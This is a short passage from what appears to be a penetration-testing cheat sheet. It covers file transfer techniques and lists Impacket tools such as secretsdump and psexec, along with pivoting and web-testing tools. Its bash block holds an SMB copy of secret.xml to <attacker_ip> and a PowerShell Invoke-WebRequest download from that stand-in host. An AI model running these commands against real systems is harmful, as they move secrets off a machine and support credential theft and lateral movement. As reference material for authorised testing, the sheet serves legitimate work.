 ### File Transfer Methods
```bash
# SMB copy
copy secret.xml \\<attacker_ip>\share\

# Base64 encode and copy
certutil -encode secret.xml secret_b64.txt
type secret_b64.txt

# PowerShell download
powershell -c "Invoke-WebRequest -Uri 'http://<attacker_ip>/secret.xml' -OutFile 'C:\temp\secret.xml'"

# Python HTTP server (on attacker)
python3 -m http.server 8000
```

---

## 🔧 Essential Tools & Commands

### Impacket Suite
```bash
# Install if needed
pip3 install impacket

# Key tools
impacket-secretsdump
impacket-psexec
impacket-smbexec
impacket-wmiexec
impacket-GetUserSPNs
impacket-GetNPUsers
impacket-ticketer
impacket-getST
impacket-lookupsid
```

### Network Pivoting
```
# Ligolo-ng for network pivoting
# Chisel as alternative
# SSH tunneling for simple cases
```

### Web Exploitation
```
# Burp Suite for manual testing
# OWASP ZAP for automated scanning
# curl for quick requests
# gobuster for directory enumeration
```
